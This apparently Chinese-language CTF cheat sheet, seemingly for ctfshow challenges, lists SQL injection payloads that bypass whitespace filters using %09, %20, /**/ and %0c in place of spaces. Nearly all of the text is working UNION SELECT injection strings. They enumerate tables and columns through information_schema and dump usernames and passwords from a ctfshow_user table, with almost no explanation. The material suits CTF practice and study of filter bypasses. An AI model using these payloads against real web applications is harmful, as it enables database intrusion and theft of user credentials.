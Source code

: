 1.空格过滤使用括号绕过或者

%20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/

  

### **%09 绕过**

```
1'%09union%09select%091,2,group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema=database()%23
```

```
1'%09union%09select%091,2,group_concat(column_name)%09from%09information_schema.columns%09where%09table_name='ctfshow_user'%23
```

```
1'%09union%09select%091,2,group_concat(id,username,password)%09from%09ctfshow_user%23
```

### **%20 绕过**

```
1'%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```
1'%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='ctfshow_user'%23
```

```
1'%20union%20select%201,2,group_concat(id,username,password)%20from%20ctfshow_user%23
```

### /**/绕过

```
1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
```

```
1'/**/union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='ctfshow_user'%23
```

```
1'/**/union/**/select/**/1,2,group_concat(id,username,password)/**/from/**/ctfshow_user%23
```

### %0c 绕过

```
1'%0cunion%0cselect%0c1,2,group_concat(table_name)%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()%23
```
